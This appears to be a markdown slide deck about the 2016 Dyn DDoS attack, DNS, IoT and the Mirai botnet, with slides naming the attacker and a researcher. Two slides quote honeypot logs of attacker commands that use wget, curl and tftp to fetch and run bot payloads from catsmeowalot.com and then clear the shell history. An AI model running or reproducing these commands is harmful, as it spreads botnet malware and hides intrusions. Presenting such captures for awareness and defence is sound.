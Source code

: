 #HSLIDE

## About Dyn, Mirai and cats
* What happened 21.Oct 2016
* What is DNS and why we should care
* What is/are IoT
* How to build a IoT botnet yourself and how to track one
* Why black- and whitehat hackers love cat pictures?

#HSLIDE

![Error](media/DNS_no_response.png)

#VSLIDE

Early Friday morning, __Dyn__, a company that provides __Domain Name Servers (DNS)__ for a 
lot of heavily trafficked websites and services, came under a __massive Distributed 
Denial of Service (DDoS)__ attack. This has disrupted access to many sites for people 
across the U.S. Yes, it’s why your __Spotify__ app is offline, why you can’t stream __Netflix__, 
and why __Twitter__ won’t load. 

#VSLIDE

## Key Findings:

* The Friday October 21, 2016 attack has been analyzed as a complex & sophisticated attack, using maliciously targeted, masked TCP and UDP traffic over port 53.
* Dyn confirms Mirai botnet as primary source of malicious attack traffic.
* Attack generated compounding recursive DNS retry traffic, further exacerbating its impact.

#HSLIDE

## DNS

<pre>
;; QUESTION SECTION:
;spotify.com.                   IN      A

;; ANSWER SECTION:
spotify.com.            300     IN      A       194.132.197.147
spotify.com.            300     IN      A       194.132.198.165
spotify.com.            300     IN      A       194.132.198.228

;; AUTHORITY SECTION:
spotify.com.            300     IN      NS      ns3.spotify.com.
spotify.com.            300     IN      NS      ns4.spotify.com.
spotify.com.            300     IN      NS      ns5.spotify.com.
spotify.com.            300     IN      NS      ns2.spotify.com.

;; ADDITIONAL SECTION:
ns2.spotify.com.        300     IN      A       194.132.168.117
ns3.spotify.com.        300     IN      A       193.235.32.2
ns4.spotify.com.        300     IN      A       194.132.162.51
ns5.spotify.com.        300     IN      A       194.68.28.185
</pre>

#VSLIDE?image=media/43.png

#VSLIDE?image=media/46.png

#VSLIDE

## Dyn service network
![Dyn network](media/dyn-network-map.png)

#HSLIDE

##IOT

"connecting any device with an on and off switch to the Internet (and/or to each other). This includes everything from cellphones, coffee makers, washing machines, headphones, lamps, wearable devices and almost anything else you can think of.  This also applies to components of machines, for example a jet engine of an airplane or the drill of an oil rig."

__... what about artificial cardiac pacemaker?__

#VSLIDE

## How businesses see IoT ..

![MS](media/business_iot.png)

#VSLIDE

## How hackers see IoT ..

![IPCAM](media/1458871382569824928.jpg)

#VSLIDE

Mirai (Japanese for "the future") is malware that turns computer systems running Linux into remotely controlled "bots", that can be used as part of a botnet in large-scale network attacks. It primarily targets online consumer devices such as remote cameras and home routers 

*/WikiPedia/*

#VSLIDE

History ...

#VSLIDE

Current ...

#HSLIDE

<pre>
2016-10-28 05:00:46+0200 admin trying auth password
2016-10-28 05:00:46+0200 login attempt [admin/qwerty] succeeded
2016-10-28 05:00:49+0200 admin authenticated with password
2016-10-28 05:00:50+0200 executing command "cd /tmp; 
  wget http://catsmeowalot.com/lmao.sh || curl -O http://catsmeowalot.com/lmao.sh; 
  chmod 777 lmao.sh; sh lmao.sh; busybox tftp catsmeowalot.com  -c get tftp1.sh; 
  chmod 777 tftp1.sh; sh tftp1.sh; busybox tftp -r tftp2.sh -g catsmeowalot.com; 
  chmod 777 tftp2.sh; sh tftp2.sh; rm -rf lmao.sh tftp1.sh tftp2.sh; cd; 
  rm -rf ./bash_history; history -c"
2016-10-28 05:00:50+0200 Command found: history -c
2016-10-28 05:00:50+0200 Closing TTY Log: log/tty/20161028-050050-abab97cc-0e.log after 0 seconds
2016-10-28 05:00:50+0200 honeypot terminal protocol connection lost disconnected
</pre>

#VSLIDE

<pre>
cd /tmp && wget -q http://catsmeowalot.com/ayylmao && 
  chmod +x ayylmao && ./ayylmao
cd /tmp && wget -q http://catsmeowalot.com/ayymips && 
  chmod +x ayymips && ./ayymips
cd /tmp && wget -q http://catsmeowalot.com/jackmysh4 && 
  chmod +x jackmysh4 && ./jackmysh4
cd /tmp && wget -q http://catsmeowalot.com/ayyx86 && 
  chmod +x ayyx86 && ./ayyx86
 ...
</pre>

#VSLIDE

## Meet the Blackhat! 

![Blackhat](media/catsmeowalot.png)

#VSLIDE

## Meet the Whitehat! 

![Whitehat](media/malwaretech.png)

#VSLIDE


#HSLIDE

## Outcome, so far
* *Skiddos* did excellent awareness rising capaign, what's next?
  * INDUSTRIAL INTERNET SECURITY FRAMEWORK (http://www.iiconsortium.org/IISF.htm, ~170p)
  * Future-proofing the Connected World (https://downloads.cloudsecurityalliance.org/assets/research/internet-of-things/future-proofing-the-connected-world.pdf, ~70p)
* DDoS as a service is off the shelf for now ...

#HSLIDE

Slides and more on Anycast and DNS:

<pre>
http:// www.pch.net / resources / papers / dns-service-architecture

Bill Woodcock 
woody@pch.net

Gaurab Raj Upadhaya
gaurab@pch.net
</pre>

